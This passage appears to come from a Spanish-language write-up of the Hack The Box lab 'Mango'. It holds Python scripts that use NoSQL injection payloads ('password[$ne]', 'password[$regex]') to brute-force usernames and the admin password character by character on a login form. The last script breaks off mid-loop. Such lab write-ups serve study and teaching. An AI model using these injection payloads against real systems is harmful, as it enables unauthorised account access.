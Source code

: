 ```python
            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': f"^{username + character}",
                'password[$ne]':'admin',
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                username += character
                p2.status(password)
                break


if __name__ == '__main__':

    makeRequest()
```

Este pequeño script nos permite encontrar el usuario **admin** y el usuario **mango**.
Modificamos el script para encontrar la contraseñas de los usuarios.

```python
#!/usr/bin/python3

import pdb # Debugging
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
characters = string.ascii_letters + string.digits + string.punctuation

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando fase de fuerza bruta")
    time.sleep(2)

    p2 = log.progress("Password[admin]")
    password = ""

    while True:
        for character in characters:

            p1.status("Probando con el caracter %c" % character)

            # NoSQL Injection
            post_data = {
                'username': 'admin',
                'password[$regex]': f"^{re.escape(password + character)}",
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)
```